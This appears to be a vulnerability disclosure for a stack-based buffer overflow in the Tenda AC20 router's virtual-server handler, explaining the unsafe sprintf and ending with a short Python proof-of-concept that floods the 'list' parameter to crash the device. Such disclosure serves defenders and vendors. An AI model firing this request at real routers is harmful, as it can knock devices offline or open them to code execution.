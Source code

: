 # Stack-Based Buffer Overflow in Tenda AC20 (firmware V16.03.08.12) formSetVirtualSer

## Summary

A stack-based buffer overflow vulnerability in the Tenda AC20 router (firmware V16.03.08.12) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `list` parameter in the `/goform/formSetVirtualSer` endpoint. The flaw resides in the `save_virtualser_data` function, which processes the `list` input with unsafe string formatting operations lacking bounds checking, enabling stack memory corruption.

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: [https://www.tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

*   **Component**: `/goform/formSetVirtualSer`

*   **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)

*   **CVE ID**: Pending

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability exists in the processing chain of the `list` parameter in the `formSetVirtualSer` function and its dependent `save_virtualser_data` function. The call chain and key operations are as follows:



1.  **Parameter Retrieval**: The `list` parameter is retrieved via `websGetVar` in `formSetVirtualSer` and directly passed to `save_virtualser_data` for virtual server rule processing, with no initial input validation.

2.  **Rule Parsing**: `save_virtualser_data` checks if the length of `list` is at least 5 bytes, then splits the input by a delimiter (controlled by the third parameter `a3`, value 126) using `strchr`. Each split segment is treated as a virtual server rule entry.

3.  **Data Extraction**: For each rule entry, `sscanf` is used to parse four fields (via format string `"%[^,]%*c%[^,]%*c%[^,]%*c%s"`), extracting values into buffers `v12`, `v13`, `v14`, and `v15`.

4.  **Unsafe Formatting**: Critical unsafe operations occur in `save_virtualser_data` when constructing the configuration string:

*   `sprintf(v11, "0;%s;%s;%s;%s;1", (const char *)v14, (const char *)v13, (const char *)v12, (const char *)v15)`: This formats the parsed fields into `v11`, a fixed-size 256-byte stack buffer.

*   No bounds checking is performed on the length of the parsed fields (`v12` to `v15`), which are directly derived from the user-controlled `list` parameter.

If any of the parsed fields are sufficiently long, the `sprintf` call will overflow the 256-byte `v11` buffer, overwriting adjacent stack memory (including return addresses, saved registers, and other critical stack data). This allows an attacker to corrupt the stack and potentially execute arbitrary code.

## PoC: Python Exploit Script

```
from pwn import *
import requests
url = "http://192.168.xxx.xxx/goform/SetVirtualServerCfg"
cookie = {"Cookie":"password=rfl1qw"}
data = {"list": cyclic(1000)}
res = requests.post(url, cookies=cookie, data=data)
res = requests.post(url, cookies=cookie, data=data)
print(res.text)
```

This script sends a crafted `list` parameter containing an overly long fourth field. When processed by `save_virtualser_data`, the `sprintf` call will overflow the `v11` buffer, causing stack corruption. Successful exploitation may result in arbitrary code execution or a denial of service condition (router crash/reboot).
